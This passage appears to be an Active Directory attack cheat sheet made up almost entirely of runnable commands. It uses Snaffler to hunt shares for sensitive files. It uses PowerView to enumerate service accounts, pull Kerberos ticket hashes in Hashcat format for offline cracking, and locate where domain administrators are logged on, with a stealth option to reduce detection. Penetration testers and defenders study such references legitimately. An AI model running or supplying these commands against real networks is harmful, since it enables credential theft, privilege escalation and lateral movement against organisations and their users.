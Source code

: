 **Snaffler**

```bash
Snaffler.exe -s -d Domain.local -o snaffler.log -v data
```

### SPN Enumeration

```bash
# find all users with an SPN set (likely service accounts)
Get-DomainUser -SPN

# find all service accounts in "Domain Admins"
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# Retrieve SPN hash
Get-DomainUser | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash
Get-DomainUser -Identity <User> | Get-DomainSPNTicket -Format Hashcat | select -ExpandProperty Hash
```

### User Hunting

#### PowerView

```bash
# Find all machines on domain where current user has local admin privileges
Find-LocalAdminAccess -Verbose
Find-LocalAdminAccess -ComputerDomain <Domain> -Verbose

# Find computers where domain administrators or specified user / group has session
Invoke-UserHunter
Invoke-UserHunter -Domain <Domain>
Invoke-UserHunter -GroupName "RDPUsers"
Invoke-UserHunter -Stealth # Makes less noise
Invoke-UserHunter -CheckAccess # Check if accessible

# Find computers where all and any users / groups have session
Invoke-UserHunter -ShowAll
Invoke-UserHunter -ShowAll -CheckAccess # Check if accessible

# Find local admins on all machines of the domain (needs local admin rights on target).
Invoke-EnumerateLocalAdmin –Verbose

# Get users logged on to the local system
Get-NetLoggedon

# Get actively logged users on a computer (needs local admin rights on the target)
Get-NetLoggedon –ComputerName <Hostname>
Get-DomainComputer | Get-NetLoggedon # All Systems

# Get locally logged users on a computer (needs remote registry on the target - started by-default on server OS)
Get-LoggedonLocal -ComputerName <Hostname>
Get-DomainComputer | Get-LoggedonLocal # All Systems

# Get the last logged user on a computer (needs administrative rights and remote registry on the target)
Get-LastLoggedOn –ComputerName <Hostname>

# Poll asystem for when a particular user accesses a resource
Invoke-UserHunter -ComputerName <Hostname> -Poll 100 -UserName <user> -Delay 5 -Verbose
```
